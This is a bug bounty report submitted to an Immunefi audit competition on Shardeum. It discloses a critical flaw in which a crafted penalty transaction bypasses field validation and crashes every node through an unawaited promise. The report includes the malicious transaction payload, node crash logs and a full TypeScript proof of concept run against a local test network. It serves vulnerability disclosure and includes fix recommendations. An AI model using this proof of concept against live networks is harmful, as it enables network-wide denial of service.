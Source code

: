 # #35696 \[BC-Critical] Specifically crafted penalty TX may cause total network shutdown.

**Submitted on Oct 3rd 2024 at 18:57:23 UTC by @Merkle\_Bonsai for** [**Audit Comp | Shardeum: Core II**](https://immunefi.com/audit-competition/shardeum-core-ii-boost)

* **Report ID:** #35696
* **Report Type:** Blockchain/DLT
* **Report severity:** Critical
* **Target:** https://github.com/shardeum/shardeum/tree/dev
* **Impacts:**
  * Network not being able to confirm new transactions (total network shutdown)

## Description

## Brief/Intro

Due to incorrect logic of processing penalty transactions, assertions in "validateTxnFields" may be bypassed, allowing to deliver malicious payload causing node thread crash or penaltization.

Please note that \`isDebugTx+isInternalTx\` is separate vector for multiple vulnerabilities (report 35695), and I'm only using it here as a way of easy deployment of bad transaction.

## Vulnerability Details

If transaction like this is injected (where keypair and walletWithProvider are existing shardeus entities), it will bypass \`validateTxnFields\` check and will cause non-catched exception in \`src/tx/penalty/transaction.tx:153\`. \`\`\` { publicKey: keypair.publicKey, isDebugTx: true, isInternalTx: true, internalTXType: InternalTXType.Penalty, reportedNodePublickKey: keypair.publicKey, operatorEVMAddress: walletWithProvider.address, timestamp: -1, validatePenaltyTX: 1999 } \`\`\`

This is what happens in logs of every node: \`\`\` 2|"shardus-instance-9001" | Error: Unknown Violation type: , undefined 2|"shardus-instance-9001" | at isProcessedPenaltyTx (shardeum/src/tx/penalty/transaction.ts:153:13) 2|"shardus-instance-9001" | at applyPenaltyTX (shardeum/src/tx/penalty/transaction.ts:318:38) 2|"shardus-instance-9001" | at applyInternalTx (shardeum/src/index.ts:2989:19) 2|"shardus-instance-9001" | at Object.apply (shardeum/src/index.ts:4070:16) 2|"shardus-instance-9001" | at Object.applicationInterfaceImpl.apply (shardeum/node\_modules/@shardus/src/shardus/index.ts:2485:23) 2|"shardus-instance-9001" | at TransactionQueue.preApplyTransaction (shardeum/node\_modules/@shardus/src/state-manager/TransactionQueue.ts:1356:40) 2|"shardus-instance-9001" | at TransactionQueue.processTransactions (shardeum/node\_modules/@shardus/src/state-manager/TransactionQueue.ts:6492:32) 2|"shardus-instance-9001" | Encountered a fatal error. Check fatal log for details. 2|"shardus-instance-9001" | Shutting down... \`\`\`

Crash happens in \`isProcessedPenaltyTx\` and is caused by \`applyPenaltyTX\` being not awaited (thus, not catching errors across asynchronyous stack) on \`src/index.ts:2989\` in case of cascade crash scenario. \`validatePenaltyTX\` only checks that \`violationType\` lies between \`ShardeumMinID\` (1000) and \`ShardeumMaxID\` (2000), yet for unknown violation types no extra checks are done.

This is happening due to this shardus logic part: \`\`\` process.on('uncaughtException', (err) => { logFatalAndExit(err) }) \`\`\`

BTW, you also have typo in "reportedNodePublickKey" name.

## Recommendations

Along with this specific fix, I generally recommend to use this typescript-eslint rule https://typescript-eslint.io/rules/no-floating-promises to enforce promise handling, reducing the possibility of such cases.

Same issue is also at least theoretically possible in ClaimReward handling (no await on \`applyClaimRewardTx\`), yet I do not see possible practical possibilities of causing crash in it.

## Proof of Concept

## Proof of Concept

Please note that this PoC demonstrates multiple attacks at same time - sadly, any other code example will be larger and more verbose. This PoC is partially shared with my other report ("validateTxnFields check for internal transactions can be bypassed"), however, it is simplest way to demonstrate the attack vector described above.

Since this requires some manually observed delay, attack is done in several steps, with switching the step iterationally (stake-init-penalty).

I'm using 10-node configuration, production mode, with only account \`0xCf551a61548863765bf635feaAa2501636B91908\` added to genesis and change in \`getExternalApiMiddleware\`, that allows to use node 9005 without auth: \`\`\` export const getExternalApiMiddleware = () => { return (req, res, next): unknown => { const { path, method } = req

```
let isAllowed &#x3D; true // Default to true
const isBadNode &#x3D; p2pSelf.getThisNodeInfo().externalPort &#x3D;&#x3D;&#x3D; 9005
if (isBadNode) {
  next()
  return
}
...
```

\`\`\`

\`\`\` const keypair = JSON.parse(await fs.readFile('../instances/shardus-instance-9005/secrets.json'))

const provider = new ethers.JsonRpcProvider('http://localhost:8080', 8082, { batchMaxCount: 1 }) const walletWithProvider = new ethers.Wallet( '0x82beccb10f7c4552334dbf1d778a88d7749656fc329ca4ea4c66f714ed7760fb', provider ) // address 0xCf551a61548863765bf635feaAa2501636B91908 console.log('address', walletWithProvider.address) const stakeRequired = BigInt('0x8ac7230489e80000')

enum Step { stake, init, unstake, penalty, }

const step = Step.penalty

switch (step) { case Step.stake: { const raw = await walletWithProvider.signTransaction({ to: '0x0000000000000000000000000000000000010000', gasPrice: '30000', gasLimit: 30000000, value: stakeRequired, chainId: 8082, data: ethers.hexlify( ethers.toUtf8Bytes( JSON.stringify({ isInternalTx: true, internalTXType: InternalTXType.Stake, nominator: walletWithProvider.address.toLowerCase(), timestamp: Date.now(), nominee: keypair.publicKey, stake: { dataType: 'bi', value: stakeRequired.toString(16) }, }) ) ), nonce: await walletWithProvider.getNonce(), }) await post('http://127.0.0.1:9005/inject', { raw, timestamp: Date.now(), appDataOverride: { networkAccount: networkAccount, }, }) break } case Step.init: { await post( 'http://127.0.0.1:9005/inject', crypto.signObj( { publicKey: keypair.publicKey, isDebugTx: true, isInternalTx: true, internalTXType: InternalTXType.InitRewardTimes, nominee: keypair.publicKey, nodeActivatedTime: 1, timestamp: Date.now() - 5 \* 60000, }, keypair.secretKey, keypair.publicKey ) ) break } case Step.penalty: { await post( 'http://127.0.0.1:9005/inject', crypto.signObj( { publicKey: keypair.publicKey, isDebugTx: true, isInternalTx: true, internalTXType: InternalTXType.Penalty, reportedNodePublickKey: keypair.publicKey, operatorEVMAddress: walletWithProvider.address, timestamp: -1, // validatePenaltyTX: 1999 - this can be skipped with isDebugTx }, keypair.secretKey, keypair.publicKey ) ) break; } } \`\`\`
